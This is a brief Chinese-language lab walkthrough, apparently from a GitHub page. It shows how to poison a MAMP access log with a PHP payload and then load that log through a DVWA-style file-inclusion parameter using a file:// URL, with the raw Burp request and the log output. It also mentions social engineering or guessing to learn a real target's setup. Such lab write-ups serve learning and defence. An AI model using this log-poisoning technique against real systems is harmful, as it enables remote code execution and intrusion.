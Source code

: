 
MAMP的登入log位置
```
C:\MAMP\logs\access.log
```

至於真實攻擊場景，你可以社工套出，他使用啥環境架設的。
或是你去暴力猜測。


打開access.log 可以看見一堆請求，這時你可以請求

```
http://localhost/<?php phpinfo();?>
```


看見log 記錄了，但是被url encode:
```
127.0.0.1 - - [31/Jan/2023:17:13:05 +0800] "GET /%3C?php%20phpinfo();?%3E HTTP/1.1" 403 206
127.0.0.1 - - [31/Jan/2023:17:13:05 +0800] "GET /robots.txt HTTP/1.1" 200 26

```



bp:

```
GET /<?php phpinfo();?> HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=6a42f1884fd05429ad3244e4a1190e46; security=high
Upgrade-Insecure-Requests: 1


```

access.log
```
127.0.0.1 - - [31/Jan/2023:17:16:35 +0800] "GET /<?php phpinfo();?> HTTP/1.1" 403 206
```



```
C:\MAMP\logs\access.log

file 協議:
file:///C:/MAMP/logs/access.log

```


```
http://localhost/vulnerabilities/fi/?page=file:///C:/MAMP/logs/access.log

```

